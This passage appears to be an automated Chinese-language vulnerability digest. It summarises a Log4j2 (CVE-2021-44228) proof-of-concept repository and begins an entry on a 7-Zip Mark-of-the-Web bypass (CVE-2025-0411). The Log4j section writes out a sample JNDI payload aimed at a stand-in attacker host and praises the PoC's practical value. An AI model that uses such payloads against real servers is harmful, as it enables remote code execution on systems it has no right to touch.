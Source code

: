 #### 📦 相关仓库

- [CVE-2021-44228](https://github.com/Sorrence/CVE-2021-44228)

#### 💡 分析概述

该项目为Apache Log4j2 (CVE-2021-44228)漏洞的简单Proof-of-Concept（PoC）利用工具。利用方法是在HTTP请求头中嵌入特制的JNDI LDAP payload以触发远程回调。代码中包含针对受影响系统的利用示例和多次修复版本的提交。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 利用HTTP头部中的JNDI LDAP调用实现远程代码执行（RCE） |
| 2 | 影响Apache Log4j2版本，受影响范围广泛 |
| 3 | 具备具体利用代码和多次版本修复提交，验证有效 |

#### 🛠️ 技术细节

> Log4j2的JNDI功能未正确验证，允许通过特制的日志信息触发远程加载恶意类或脚本，造成远程代码执行。

> 利用方法是在HTTP请求头中设置特定内容，如`${jndi:ldap://attacker.com/a}`，诱导受害者服务器请求攻击者控制的LDAP服务器。

> 修复方案主要是禁用JNDI功能或加强验证，最新版本的Log4j2已修复该漏洞。


#### 🎯 受影响组件

```
• Apache Log4j2
```

#### 💻 代码分析

**分析 1**:
> 代码中包含可用的PoC利用代码，支持构造和发送攻击载荷。

**分析 2**:
> 代码经过多次修复提交，包括参数化端口和重建HTTP请求，验证了攻击的可行性。

**分析 3**:
> 代码质量较好，结构清晰，含有完整的利用流程和测试示例，具备实际操作价值。


#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### CVE-2025-0411 - 7-Zip MotW绕过漏洞

#### 📌 漏洞信息

| 属性 | 详情 |
|------|------|
| CVE编号 | CVE-2025-0411 |
| 风险等级 | `CRITICAL` |
| 利用状态 | `POC可用` |
| 发布时间 | 2025-08-17 00:00:00 |
| 最后更新 | 2025-08-17 15:32:20 |
